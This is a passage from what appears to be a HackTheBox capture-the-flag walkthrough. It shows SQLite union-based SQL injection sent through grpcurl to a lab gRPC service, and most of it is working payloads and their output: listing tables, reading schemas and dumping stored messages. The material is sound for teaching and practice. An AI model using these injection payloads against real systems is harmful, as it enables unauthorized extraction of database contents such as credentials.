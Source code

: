 PayloadsAllTheThings has a [SQLite Injection
page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#string-based---extract-database-structure).
I'll use the query here to get the table names:



    oxdf@hacky$ grpcurl -d 'id: "320 union select tbl_name from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "accounts"



The trick is making sure to nest `"` and `'` properly. It seems this
application is only sending back the first one, so I'll add
`group_concat()` to get all of them:



    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "accounts,messages"



#### Table Structures

The query from PayloadsAllTheThings to get the column names works:



    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL and name =\"messages\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"



It's returning the string that shows how the table was created. I can
get both in one query:



    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n),CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"



`accounts` has `username` and `password`, `messages` has `id`,
`username`, and `message`.

#### messages

There are only two messages in the DB:



    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(id || \":\" || username || \":\" || message) from messages"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "1:admin:The admin is working hard to fix the issues.,652:0xdf:Will update soon."
